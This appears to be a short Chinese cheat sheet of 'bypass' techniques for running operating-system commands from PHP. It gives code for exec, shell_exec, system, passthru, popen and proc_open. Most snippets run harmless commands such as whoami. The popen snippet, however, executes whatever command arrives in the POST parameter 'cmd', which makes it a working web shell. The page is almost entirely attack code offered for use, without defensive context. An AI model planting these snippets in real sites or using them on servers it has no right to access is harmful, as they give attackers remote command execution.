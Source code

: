 # ***常规绕过***

**1\. exec**

```php
<?php
  echo exec('whoami');?>

```

**2\. shell_exec**

```php
<?php
  echo shell_exec('whoami');?>

```

**3\. system**

```php
<?php
  system('whoami');?>

```

**4\. passthru**

```php
<?php
  passthru("whoami");?>

```

**5\. popen**

```php
<?php
$command=$_POST['cmd'];
$handle = popen($command , "r");
  while(!feof($handle))
  {     echo fread($handle, 1024);  //fread($handle, 1024);
  }  
  pclose($handle);?>

```

**6\. proc_open**

```php
<?php
  $command="ipconfig";
  $descriptorspec = array(1 => array("pipe", "w"));
  $handle = proc_open($command ,$descriptorspec , $pipes);
  while(!feof($pipes[1]))
  {     echo fread($pipes[1], 1024); //fgets($pipes[1],1024);
  }?>

```

